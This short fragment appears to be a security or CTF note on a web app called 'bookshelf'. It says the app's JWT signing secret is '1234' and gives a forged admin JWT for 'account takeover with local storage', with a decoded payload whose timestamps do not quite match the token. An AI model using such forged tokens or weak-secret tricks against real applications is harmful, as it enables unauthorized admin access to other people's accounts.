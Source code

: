 JWT secret key is 1234

Account takeover with local storage:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE2ODA0OTgyNTMsImlhdCI6MTY3OTg5MzQ1MywidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.HpqrQ2l4wMZd6r6AnythuWmWKWS0g7r3YjG-Rlz1y1o
```

```
{"role":"Admin","iss":"bookshelf","exp":1680498533,"iat":1679893733,"userId":2,"email":"admin"}
```